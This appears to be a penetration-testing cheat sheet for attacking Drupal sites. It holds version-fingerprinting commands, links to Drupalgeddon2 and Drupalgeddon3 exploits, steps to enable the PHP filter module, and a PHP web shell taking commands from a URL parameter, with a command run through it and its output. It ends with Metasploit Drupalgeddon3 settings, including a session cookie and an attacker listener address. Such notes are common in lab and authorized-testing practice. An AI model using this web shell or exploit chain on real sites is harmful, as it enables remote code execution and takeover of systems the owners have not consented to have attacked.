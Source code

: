 ## Drupal

- Check for CVEs
- [Drupalgeddon2](https://www.exploit-db.com/exploits/44448)
- [Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3)

```bash
$ curl -s http://$TARGET | grep Drupal

<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />
      <span>Powered by <a href="https://www.drupal.org">Drupal</a></span>

$ curl -s http://$TARGET/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21


$ curl -s http://$TARGET/CHANGELOG.txt

<!DOCTYPE html><html><head><title>404 Not Found</title></head><body><h1>Not Found</h1><p>The requested URL "http://$TARGET/CHANGELOG.txt" was not found on this server.</p></body></html>

$ droopescan scan drupal -u http://$TARGET
```

In Drupal 8, we can enable PHP filter module

- http://$TARGET/#overlay=admin/modules
- http://$TARGET/#overlay=node/add
- http://$TARGET/#overlay=node/add/page

If we can page, we can put a reverse shell like :
```php
<?php
    system($_GET['cmd']);
?>
```

```bash
curl -s http://$TARGET/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can also install php filter module : 
```bash
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
http://$TARGET/admin/reports/updates/install
```

Using metasploit : 

```bash
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST $TARGET   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > exploit
```